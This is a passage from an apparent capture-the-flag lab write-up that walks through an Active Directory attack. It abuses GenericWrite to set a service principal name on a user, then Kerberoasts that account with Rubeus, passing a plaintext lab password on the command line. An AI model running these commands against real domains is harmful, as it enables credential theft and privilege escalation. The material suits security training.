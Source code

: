 JACKPOT!!!!!!!!!!!!!!!

<figure><img src="../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

We know we have GenericWrite, so let's do some Kerberoasting!

```
Set-ADUser -Identity ethan -ServicePrincipalNames @{Add="backup/ethan"} -Credential $emilyCreds
```

```
.\Rubeus.exe kerberoast /user:ethan /domain:administrator.htb /dc:10.10.11.42 /creduser:administrator.htb\emily /credpassword:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
```

<figure><img src="../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>
